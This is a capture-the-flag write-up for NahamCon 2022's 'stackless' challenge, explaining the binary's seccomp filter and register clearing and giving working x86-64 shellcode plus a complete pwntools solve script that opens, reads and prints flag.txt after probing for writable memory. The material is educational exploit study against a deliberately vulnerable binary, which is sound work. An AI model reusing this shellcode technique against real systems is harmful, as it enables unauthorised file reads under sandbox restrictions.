 ## Question 

Author: @M_alpha#3534

Oh no my stack!!!! 

[stackless](stackless), [stackless.c](stackless.c)

## Solution

I thought this was a great problem from [NahamCon](https://ctf.nahamcon.com). I just about solved it during the CTF. Afterwards, I saw a few solutions [1](https://github.com/MaherAzzouzi/LinuxExploitation/blob/master/NahamCon2022/stackless/solve.py), [2](https://discord.com/channels/598608711186907146/970036822338064394/970044239687856188), [3](https://discord.com/channels/598608711186907146/970036822338064394/970041417147756624) and then fixed my solution. One solution I completely missed was that ```fs:0``` still contained a heap address [4](https://discord.com/channels/598608711186907146/970036822338064394/970045488986464306).

The [challenge](stackless.c) initially creates a stack pivot at a random memory location for shellcode. 

```c
code = mmap((void *)addr, 0x1000, PROT_READ | PROT_WRITE,
        MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED, 0, 0);
```

It then marks the memory region ```PROT_READ | PROT_EXEC``` only, jumps to it, and clears all the registers.

```c
mprotect(code, 0x1000, PROT_READ | PROT_EXEC)
...
__asm__ volatile(".intel_syntax noprefix\n"
                     "mov r15, %[addr]\n"
                     "xor rax, rax\n"
                     "xor rbx, rbx\n"
                     "xor rcx, rcx\n"
                     "xor rdx, rdx\n"
                     "xor rsp, rsp\n"
                     "xor rbp, rbp\n"
                     "xor rsi, rsi\n"
                     "xor rdi, rdi\n"
                     "xor r8, r8\n"
                     "xor r9, r9\n"
                     "xor r10, r10\n"
                     "xor r11, r11\n"
                     "xor r12, r12\n"
                     "xor r13, r13\n"
                     "xor r14, r14\n"
                     "jmp r15\n"
                     ".att_syntax"
                     :
                     : [addr] "r"(code));
```

Finally, there are also seccomp rules on the binary that only permit open, read, write, close, exit, exit_group

```
└─# seccomp-tools dump ./stackless 
Shellcode
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0012
 0008: 0x15 0x03 0x00 0x00000003  if (A == close) goto 0012
 0009: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0012
 0010: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

The solution is to obviously build shellcode that reads flag.txt by opening, reading and writing the contents of the flag to stdout. But this is a little tricky, given all the registers (including RSP) have been cleared and the stack is marked as non-writeable. 

The first challenge is to build an open() syscall that points to ```'flag.txt'``` using relative addressing off the instruction pointer. The length of our shellcode will end up being 78 bytes, but we can also determine that using ```print(len(shellcode)-len(asm('mov rax, 0x2; lea rdi, [rip]+01;')))```, which I commented in the final solution.

```python
''' open(rax=0x2, rdi=rsp+len(shellcode), rsi=0x0, rdx=0x40000)'''
shellcode=asm("""
mov rax, 0x2
lea rdi, [rip]+78
mov rsi, 0x0
mov rdx, 0x4000
syscall
""")

#print(len(shellcode)-len(asm('mov rax, 0x2; lea rdi, [rip]+01;')))
shellcode+= b'flag.txt'
```

The next challenge is to determine a region to store the char* , which points to the file contents from the read() syscall. If we tried using our current stack to store the char* we would, we see RAX returns ```0xfffffffffffffff2```, which is errno 14 or ```bad address``` since the region is marked as readable and executable but not writeable. Thus, we will just create a loop that starts at ```0x7ff000000000```, counting up by 0x1000 bytes until we no longer get the ```bad address``` error.

```python
''' read(rax=0x0, rdi=fd(0x3), rsi=0x7ff000000000+offset, rdx=0x100)'''
shellcode+=asm("""
mov rsi, 0x7ff000000000
cmp_loop:
add rsi, 0x1000
mov rax, 0x0
mov rdi, 0x3
mov rdx, 0x100
syscall; cmp rax, 0xfffffffffffffff2
je cmp_loop
""")
```

After this we will put our solution together by writing 0x100 bytes of ```flag.txt``` to stdout.

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
b *$rebase(0x00001833)
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    else:
        return process(e.path)

p = start()

''' open(rax=0x2, rdi=rsp+len(shellcode), rsi=0x0, rdx=0x40000)'''
shellcode=asm("""
mov rax, 0x2
lea rdi, [rip]+78
mov rsi, 0x0
mov rdx, 0x4000
syscall
""")

''' read(rax=0x0, rdi=fd(0x3), rsi=0x7ff000000000+offset, rdx=0x100)'''
shellcode+=asm("""
mov rsi, 0x7ff000000000
cmp_loop:
add rsi, 0x1000
mov rax, 0x0
mov rdi, 0x3
mov rdx, 0x100
syscall; cmp rax, 0xfffffffffffffff2
je cmp_loop
""")

''' write(rax=0x1, rdi=stdout=0x1, rdx=0x100)'''
shellcode+=asm("""
mov rax, 0x1
mov rdi, 0x1
syscall
""")

#print(len(shellcode)-len(asm('mov rax, 0x2; lea rdi, [rip]+01;')))
''' append flag.txt to stack '''
shellcode+=b'flag.txt\0'


p.recvuntil(b'Shellcode length')
p.sendline(b"%i" %len(shellcode))
p.recvuntil(b'Shellcode')
p.sendline(shellcode)

p.interactive()
```

